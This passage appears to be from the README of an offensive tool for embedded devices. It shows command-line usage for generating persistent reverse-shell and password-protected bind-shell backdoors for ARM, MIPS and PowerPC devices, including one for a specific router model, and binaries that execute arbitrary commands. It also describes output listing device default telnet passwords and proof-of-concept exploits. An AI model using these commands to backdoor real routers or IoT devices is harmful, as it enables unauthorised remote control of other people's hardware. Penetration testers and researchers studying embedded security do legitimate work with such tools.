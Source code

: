    If you need to generate a backdoor and constantly create reverse shells (the CPU occupied by the test is about% 8)

   ```
   hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shell_file -shell bash -power
   or
   hackebds -lhost 127.0.0.1 -lport 8081 -arch armelv7 -res reverse_shell_file -shell bash -power
   ```

   ![image-20221102183017775](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102183017775.png)

   ```
   hackebds -bind_port 8080 -passwd 1234 -arch mips -model DIR-823 -res bind_shell
   ```

   Create bind_shell to monitor the shell as sh, -power fuction can give -shell bash	

   ```
   hackebds -bind_port 8081 -arch armelv7 -res bind_shell -passwd 1231 -power
   ```

   The bind_shell process will not stop after being disconnected, and supports repeated connections (currently this function is not supported by powerpc and sparc series)

   ![image-20221102182939434](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102182939434.png)

   

   Generate cmd_file function is updated. Only need to specify the - cmd parameter to generate programs for various architectures to execute corresponding commands , -envp Environment variables are separated by commas

   ```
   hackebds  -cmd "ls -al /" -arch powerpc  -res cmd_file
   ```

   ![image-20230106153459125](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20230106153459125.png)

   The list relationship between the output model and the architecture is added to the function of generating the back door of the specified model to facilitate the user to observe and modify. The output information will be enhanced after version 0.3.5, such as (100+ device information, POC80+or so):
   Function of equipment
   Architecture of equipment
   Device CPU manufacturer
   Device CPU model
   WEB service program of the device
   Device default SSH service support
   Can monitoring be realized
   Device default telnet user password
   Device sdk support
   Openwrt support for devices
   Whether the device is vulnerable
   POC output

   ```
   hackebds -l
   ```
